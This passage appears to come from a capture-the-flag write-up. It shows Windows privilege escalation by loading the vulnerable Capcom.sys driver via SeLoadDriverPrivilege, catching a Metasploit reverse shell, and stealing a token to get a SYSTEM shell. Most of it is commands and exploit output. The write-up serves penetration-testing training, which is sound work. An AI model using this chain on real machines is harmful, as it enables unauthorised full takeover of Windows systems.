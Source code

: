 Now that we have all of the files uploaded to the victim machine, we can load our driver:

```
$ eoploaddriver.exe System\CurrentControlSet\MyService C:\.tmp\Capcom.sys
...
[+] Enabling SeLoadDriverPrivilege                                          
[+] SeLoadDriverPrivilege Enabled                                           [+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```

Now that we have it loaded, we'll need to open a Metasploit listener:

```
$ msfconsole
$ use exploit/multi/handler
$ set LHOST tun0
$ set LPORT 1234
$ exploit -j
```

Finally, we'll run our exploit:

```
$ ./ExploitCapcom.exe
[*] Capcom.sys exploit                                                                                               
[*] Capcom.sys handle was obtained as 0000000000000064                                                               
[*] Shellcode was placed at 000002571D360008                                                                         
[+] Shellcode was executed                                                                                           
[+] Token stealing was successful                                                                                    
[+] The SYSTEM shell was launched                                                                                    
[*] Press any key to exit this program 
```

Now, we just catch our shell!

```
meterpreter > shell                                       
Process 4708 created.                                     
Channel 1 created.                                        
Microsoft Windows [Version 10.0.14393]                    
(c) 2016 Microsoft Corporation. All rights reserved.      
                                                          
C:\.tmp>whoami                                            
whoami                                                    
nt authority\system
```

Voila, we have a system level shell!


